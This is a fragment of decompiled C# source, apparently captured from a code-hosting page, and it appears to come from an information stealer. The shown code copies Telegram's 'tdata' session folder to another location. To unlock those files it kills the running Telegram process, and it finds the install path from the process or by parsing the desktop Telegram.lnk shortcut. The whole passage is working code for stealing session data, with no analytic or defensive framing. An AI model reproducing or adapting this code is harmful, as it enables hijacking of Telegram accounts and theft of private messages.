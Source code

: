 ```csharp
					}
					foreach (string text5 in Directory.GetDirectories(text3))
					{
						string text6 = text2 + "\\" + text5.Split(new char[] { '\\' })[text5.Split(new char[] { '\\' }).Length - 1];
						Directory.CreateDirectory(text6);
						foreach (string text7 in Directory.GetFiles(text5))
						{
							bool flag3 = File.Exists(text6 + "\\" + Path.GetFileName(text7));
							if (flag3)
							{
								File.Delete(text6 + "\\" + Path.GetFileName(text7));
							}
							File.Copy(text7, text6 + "\\" + Path.GetFileName(text7));
						}
					}
				}
			}
			catch (Exception ex)
			{
				Variables.telegramSessionFound = "ERR: " + ex.Message;
			}
		}

		// Token: 0x0600000E RID: 14 RVA: 0x00002A58 File Offset: 0x00000C58
		private static void TelegramProcessKill(ref string pathToTelegram)
		{
			Process[] processesByName = Process.GetProcessesByName("Telegram");
			bool flag = processesByName.Length != 0;
			if (flag)
			{
				bool flag2 = pathToTelegram == "Not Found!";
				if (flag2)
				{
					pathToTelegram = processesByName[0].MainModule.FileName;
					string text = pathToTelegram.Remove(pathToTelegram.Length - 13, 13);
					pathToTelegram = text + "\\tdata";
				}
				processesByName[0].Kill();
				processesByName[0].WaitForExit();
			}
		}

		// Token: 0x0600000F RID: 15 RVA: 0x00002AD0 File Offset: 0x00000CD0
		private static string GetPathByLnk()
		{
			string text2;
			try
			{
				string text = Variables.desktop + "\\Telegram.lnk";
				FileInfo fileInfo = new FileInfo(text);
				using (FileStream fileStream = File.Open(fileInfo.FullName, FileMode.Open, FileAccess.Read))
				{
					using (BinaryReader binaryReader = new BinaryReader(fileStream))
					{
						fileStream.Seek(20L, SeekOrigin.Begin);
						uint num = binaryReader.ReadUInt32();
						bool flag = (num & 1U) == 1U;
						if (flag)
						{
							fileStream.Seek(76L, SeekOrigin.Begin);
							ushort num2 = binaryReader.ReadUInt16();
```